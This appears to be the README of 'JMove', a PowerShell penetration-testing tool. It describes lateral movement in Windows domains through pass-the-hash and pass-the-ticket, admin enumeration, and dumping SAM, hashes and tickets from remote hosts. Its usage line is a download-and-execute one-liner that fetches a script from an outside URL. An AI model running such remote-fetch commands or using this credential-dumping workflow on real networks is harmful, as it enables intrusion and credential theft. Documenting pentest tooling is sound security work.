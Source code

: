 # JMove
Lateral Movement within Windows environments

JMove is a PowerShell tool that is designed to aid in lateral movement within a Windows environment. 

This tool enables you to use new credentials, such as usernames and passwords or hashes or tickets, to perform pass-the-password, pass-the-hash, or pass-the-ticket actions. 

The tool can handle both domain or local credentials, providing a versatile solution for network penetration testing. 

Once the credential material is provided, JMove will first enumerate Active Directory (AD) for servers or workstations, or work with a provided list of hostnames. 

Then, it will run a port 135 scan to check for alive hosts, and enumerate if there is any local admin access to those hosts. 

Additionally, it will enumerate AD Domain and Enterprise Admins, enumerate users sessions on those hosts where you have local admin access, check if any Domain or Enterprise Admin has a session on any of those hosts, dump SAM from those hosts, dump hashes and tickets from those hosts and save the dumps into your current folder. 

The tool also checks for the presence of Domain or Enterprise Admins tickets or hashes in the dumps.

Run as follows:

`iex(new-object net.webclient).downloadstring('http://c.soc.ja.net/JMove.ps1')`
